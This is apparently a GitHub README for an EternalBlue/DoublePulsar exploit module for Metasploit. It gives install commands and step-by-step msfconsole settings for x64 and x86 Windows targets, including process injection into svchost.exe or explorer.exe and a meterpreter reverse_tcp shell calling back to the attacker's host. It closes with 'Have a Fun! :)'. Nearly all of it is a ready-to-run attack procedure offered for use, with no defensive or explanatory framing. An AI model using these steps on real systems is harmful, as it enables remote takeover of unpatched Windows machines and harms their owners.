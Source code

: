 # Eternalblue-Doublepulsar-Metasploit

# How to Install

dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
cd Eternalblue-Doublepulsar-Metasploit
cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
Note: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
mkdir -p /root/.wine/drive_c/

# How to use

service postgresql start
service postgresql enable
msfconsole
reload_all 
use exploit/windows/smb/eternalblue_doublepulsar
show options

 - For Windows x64
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT svchost.exe
 set TARGETARCHITECTURE x64
 set payload windows/x64/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 - For Windows x86
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT explorer.exe
 set TARGETARCHITECTURE x86
 set payload windows/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 # Have a Fun! :)
